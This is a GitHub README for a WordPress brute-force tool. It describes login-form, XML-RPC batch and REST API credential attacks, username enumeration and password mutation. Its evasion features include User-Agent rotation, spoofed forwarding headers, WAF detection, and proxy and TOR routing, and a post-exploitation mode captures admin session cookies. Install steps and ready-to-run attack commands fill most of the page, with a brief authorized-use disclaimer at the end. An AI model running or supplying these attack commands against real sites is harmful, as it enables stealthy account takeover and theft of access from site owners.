

<p align="center">
  
</p>

<p align="center">
  
  
  
  
</p>

<h1 align="center">WP Brute v2.0</h1>
<p align="center"><b>Advanced WordPress Authentication Testing Suite</b></p>
<p align="center"><i>Multi-vector credential testing with stealth evasion, proxy rotation, and post-exploitation</i></p>

---

## What it does

WordPress brute force tool for pentesters. Supports login form, XML-RPC, and REST API attack vectors with proxy rotation, WAF evasion, and auto user enumeration. Handles hardened targets with rate limiting, CAPTCHA detection, and adaptive delays.

---

## Features

**Attack Vectors**
- `login` - standard wp-login.php form attack
- `xmlrpc` - XML-RPC multicall batching (up to 500 passwords/request)
- `rest` - JWT REST API authentication endpoint
- `multi-vector` - all three vectors in parallel

**Intelligence**
- 7-method username enumeration (REST API, author archives, oEmbed, RSS, sitemap, login error analysis)
- Target-aware password generation from domain name, site title, and common patterns
- Password mutations - leet speak, year suffixes, keyboard walks, case variations
- 250+ built-in common WordPress passwords

**Stealth & Evasion**
- Three modes: `stealth`, `balanced`, `aggressive`
- 30+ rotating User-Agent strings (desktop, mobile, bot)
- Random `X-Forwarded-For`, `X-Real-IP`, `X-Client-IP` header spoofing
- Adaptive delay - backs off when rate limiting kicks in
- WAF detection with configurable cooldown

**Proxy Support**
- HTTP, SOCKS4, and SOCKS5 proxy support
- Health-based proxy rotation with automatic dead proxy removal
- TOR integration (auto-detects SOCKS5 on port 9050)
- Built-in proxy fetcher script

**Post-Exploitation**
- Validates discovered credentials
- Extracts WordPress version, active plugins, user roles
- Identifies admin-level access
- Full session cookie capture

**Other**
- Resume support - save/restore attack state
- CSV, HTML, JSON export
- Live dashboard with real-time stats
- Target recon (30+ admin path discovery)

---

## Installation

### Windows

```bash
git clone https://github.com/V3n0mSh3ll/wp-brute.git
cd wp-brute
pip install requests colorama
python wp_brute.py
```

Or download [wp_brute.exe](https://github.com/V3n0mSh3ll/wp-brute/releases) from releases - no Python needed.

### Linux (Kali/Ubuntu/Debian/Parrot)

```bash
# update system
sudo apt update && sudo apt upgrade -y

# install python3 and pip if not already installed
sudo apt install python3 python3-pip git -y

# clone repo
git clone https://github.com/V3n0mSh3ll/wp-brute.git
cd wp-brute

# install dependencies
pip3 install requests colorama

# run
python3 wp_brute.py
```

For SOCKS proxy support (optional):
```bash
pip3 install pysocks
```

For TOR routing (optional):
```bash
sudo apt install tor -y
sudo service tor start
# tool auto-detects TOR on 127.0.0.1:9050
python3 wp_brute.py -u http://target.com --proxy-type socks5
```

### Termux (Android)

```bash
# update packages
pkg update && pkg upgrade -y

# install python and git
pkg install python git -y

# clone repo
git clone https://github.com/V3n0mSh3ll/wp-brute.git
cd wp-brute

# install dependencies
pip install requests colorama

# run interactive mode
python wp_brute.py

# run CLI mode
python wp_brute.py -u http://target.com -U admin -w wordlist.txt
```

Termux optional setup:
```bash
# for SOCKS proxy support
pip install pysocks

# for TOR routing
pkg install tor -y
tor &
python wp_brute.py -u http://target.com --proxy-type socks5

# fix SSL errors on some devices
pip install certifi
pkg install ca-certificates -y

# allow storage access (for custom wordlists)
termux-setup-storage
# then use: python wp_brute.py -w /sdcard/wordlist.txt
```

### Quick Run (all platforms)

```bash
# interactive menu
python wp_brute.py

# basic CLI attack
python wp_brute.py -u http://target.com -U admin -w wordlist.txt

# full stealth with all features
python wp_brute.py -u http://target.com --enum-users --mutate --recon --post-exploit --mode stealth
```

---

## Usage Examples

**Username enumeration only:**
```bash
python wp_brute.py -u http://target.com --enum-users --enum-range 50
```

**XML-RPC batch attack (fast):**
```bash
python wp_brute.py -u http://target.com -U admin --vector xmlrpc --xmlrpc-batch 500 --mode aggressive
```

**Stealth attack with proxies and mutations:**
```bash
python wp_brute.py -u http://target.com --enum-users --mutate --mutation-depth 2 -p proxies.txt --spoof-headers --mode stealth
```

**Multi-vector with post-exploitation:**
```bash
python wp_brute.py -u http://target.com -U admin editor --multi-vector --post-exploit --recon
```

**Resume a previous attack:**
```bash
python wp_brute.py --resume --state-file attack_state.json
```

---

## Interactive Mode

Run `python wp_brute.py` without arguments for the interactive menu:

```
╔════════════════════════════════════════╗
║  WP BRUTE v2.0.0                       ║
╠════════════════════════════════════════╣
║  [1]  Quick Attack                     ║
║  [2]  Stealth Attack                   ║
║  [3]  Aggressive Attack                ║
║  [4]  XML-RPC Batch Attack             ║
║  [5]  Multi-Vector Attack              ║
║  [6]  Custom Attack                    ║
║  [7]  Username Enumeration Only        ║
║  [8]  Target Recon                     ║
║  [0]  Exit                             ║
╚════════════════════════════════════════╝
```

---

## CLI Options

| Flag | Description | Default |
|------|-------------|---------|
| `-u, --url` | Target WordPress URL | - |
| `-U, --usernames` | Space-separated usernames | - |
| `-F, --usernames-file` | File with usernames (one per line) | — |
| `-w, --wordlist` | Password wordlist | `rockyou.txt` |
| `-t, --threads` | Concurrent threads | `15` |
| `--vector` | Attack vector: `login`, `xmlrpc`, `rest` | `login` |
| `--mode` | `stealth`, `balanced`, `aggressive` | `stealth` |
| `--enum-users` | Auto-enumerate usernames | Off |
| `--mutate` | Enable password mutations | Off |
| `--mutation-depth` | `1`=light, `2`=medium, `3`=heavy | `1` |
| `--recon` | Full target recon before attack | Off |
| `--post-exploit` | Validate creds + extract info | Off |
| `--multi-vector` | Attack via all vectors in parallel | Off |
| `--spoof-headers` | Randomize forwarded headers | Off |
| `-p, --proxies` | Proxy list file | `proxies.txt` |
| `--proxy-type` | `auto`, `http`, `socks4`, `socks5` | `auto` |
| `--xmlrpc-batch` | Passwords per XML-RPC multicall | `500` |
| `--dashboard` | Start live stats dashboard | Off |
| `--resume` | Resume from saved state | Off |
| `--output-csv` | Export results as CSV | Off |
| `--output-html` | Export results as HTML report | Off |

---

## Proxy Setup

Drop a `proxies.txt` file in the project root with one proxy per line:

```
192.168.1.1:8080
socks5://10.0.0.1:1080
user:pass@proxy.example.com:3128
```

Or use the included proxy fetcher:

```bash
python fetch_proxies.py
```

TOR is auto-detected if running on `127.0.0.1:9050`.

---

## Requirements

- Python 3.8+
- `requests`
- `colorama` (optional, works without it)

```bash
pip install -r requirements.txt
```

---

## Disclaimer

This tool is intended for **authorized security testing only**. Do not use it against systems you don't own or have explicit permission to test.

Unauthorized access to computer systems is illegal. The developer takes no responsibility for misuse.

---

## Author

**Muhammad Abid** - [@V3n0mSh3ll](https://github.com/V3n0mSh3ll)

---


